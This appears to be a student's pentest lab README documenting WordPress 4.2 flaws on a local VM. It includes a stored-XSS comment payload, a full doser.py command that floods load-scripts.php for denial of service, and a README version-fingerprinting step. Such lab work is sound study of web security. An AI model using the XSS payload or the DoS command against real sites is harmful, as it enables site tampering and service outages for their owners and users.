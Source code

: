 # Codepath Week7: Wordpress
# Project 7 - WordPress Pentesting

Time spent: **24** hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary:
		1. A comment which exceeds 64 kb of data to a post will cause the HTML to no longer be 'well formed', allowing a malicious script to be inserted.  
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: XssWeek7.gif
  - [ ] Steps to recreate: 
		1. Over 64kb of data must be sent in the comment, achieved by padding the comment with over 64000 'X's . 
		2. The script is thus: <a title='x onmouseover=alert(unescape(/hello%20dallens/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px --64000Xs--'></a>
		3. Post this code as a comment and a persistent XSS dialog box will display.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/32299)
2. WordPress <= 4.9.4 - Unauthenticated Page Request Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: 
		1. An unauthenticated request to to all Wordpress stored javascripts that is uneccesary for site functionality can be leveraged for a DOS, causing the server to be unresponsive.
    - Vulnerability types: DOS/Improper Authentication
    - Tested in version: 4.2
    - Fixed in version: Unpatched 
  - [ ] GIF Walkthrough: UnauthenticatedDOSfinal.gif
  - [ ] Steps to recreate: 
		1. Use a script to generate multiple requests (https://github.com/Quitten/doser.py/blob/master/doser.py) and a specially crafted payload requesting all stored javascript modules is launched from the attacker's machine.
		2. ```python doser.py -g 'http://wpdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999```
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php)
1. http://wpdistillery.vm/readme.html exposes version number
  - [ ] Summary: 
		1. The Wordpress version is exposed via an unauthenticated request to the README file.
    - Vulnerability types: Fingerprinting or Enumeration
    - Tested in version: 4.2
    - Fixed in version: (unfixed)
  - [ ] GIF Walkthrough: README_VersionFingerprinting.gif
  - [ ] Steps to recreate: 
		1. Navigate to http://wpdistillery.vm/readme.html
		2. Wordpress version is exposed without any authentication or effort by an attacker.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
